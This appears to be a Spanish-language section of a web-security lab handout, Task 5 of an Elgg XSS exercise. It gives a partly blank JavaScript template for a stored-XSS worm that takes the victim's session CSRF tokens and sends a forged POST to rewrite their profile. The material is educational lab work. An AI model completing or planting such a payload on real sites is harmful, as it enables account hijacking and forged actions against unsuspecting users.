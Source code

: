 \subsection{Tarea 5: Modificando el perfil de la Víctima}


El objetivo de esta tarea es modificar el perfil de la víctima cuando esta visite el perfil de Samy. Más precisamente modificar el campo \texttt{"About Me"} de la víctima. Para ello escribiremos un gusano XSS, este no se auto-propagará;  Lo haremos auto-propagable en la Tarea 6.

Al igual que en la tarea anterior, necesitaremos escribir un programa de JavaScript malicioso que falsifique Requests HTTP directamente desde el navegador de la víctima, sin la intervención del atacante.
Para modificar el perfil de la víctia, primero debemos entender como es que un usuario legítimo edita o modifica su perfil en {\tt Elgg}. Más específicamente, necesitamos averiguar como se construye un Request HTTP POST para realizar la modificación del perfil del usuario.
Para este propósito usaremos la herramienta \texttt{HTTP} inspection tool de Firefox.

Una vez entendido como es el Request HTTP Post que permite modificar el perfil del usuario, podemos escribir un programa JavaScript para enviar la misma petición HTTP. Hemos provisto un código JavaScript base que ayuda a completar esta tarea.
\begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  
  var sendurl=...;     //FILL IN
  
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

